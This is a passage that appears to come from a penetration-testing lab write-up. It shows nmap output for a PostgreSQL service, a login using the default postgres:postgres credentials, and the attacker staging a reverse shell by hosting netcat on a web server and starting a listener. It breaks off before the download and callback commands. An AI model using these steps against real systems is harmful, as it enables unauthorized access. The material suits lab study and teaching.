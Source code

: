 ```bash
|     Munsupported frontend protocol 65363.19778: server supports 2.0 to 3.0
|     Fpostmaster.c
|     L2016
|_    RProcessStartupPacket
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-14T11:42:14
|_Not valid after:  2030-04-12T11:42:14
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5437-TCP:V=7.80%I=7%D=4/14%Time=5E95A591%P=x86_64-pc-linux-gnu%r(Ke
SF:rberos,8C,"E\0\0\0\x8bSFATAL\0VFATAL\0C0A000\0Munsupported\x20frontend\
SF:x20protocol\x2027265\.28208:\x20server\x20supports\x202\.0\x20to\x203\.
SF:0\0Fpostmaster\.c\0L2016\0RProcessStartupPacket\0\0")%r(SMBProgNeg,8C,"
SF:E\0\0\0\x8bSFATAL\0VFATAL\0C0A000\0Munsupported\x20frontend\x20protocol
SF:\x2065363\.19778:\x20server\x20supports\x202\.0\x20to\x203\.0\0Fpostmas
SF:ter\.c\0L2016\0RProcessStartupPacket\0\0");
MAC Address: 00:0C:29:80:6E:6D (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Synology DiskStation Manager 5.2-5644 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.60 ms 192.168.234.140
Exploitation
PostgreSQL Reverse Shell
Since the PostgreSQL server is listening on all interfaces, we can connect to it with psql. Since credentials are required, we begin password guessing and discover that the default credentials (postgres:postgres) are still active.

kali@kali:~$ psql -h 192.168.234.140 -p 5437 -U postgres
Password for user postgres: [postgres]
psql (12.2 (Debian 12.2-1+b1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
In addition, the default PostgreSQL settings are also in place, which means we can easily grab a reverse shell. To do this, we’ll first start a web server and host our copy of the Netcat binary.

kali@kali:~$ which nc
/usr/bin/nc
kali@kali:~$ cp /usr/bin/nc .
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Then, we’ll set up a Netcat listener on port 5437.

kali@kali:~$ nc -lvp 5437
listening on [any] 5437 ...
After switching to the default postgres database, we can download the Netcat binary to the target and use it to connect back to our attack machine.

postgres=# \c postgres;
psql (12.2 (Debian 12.2-1+b1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
```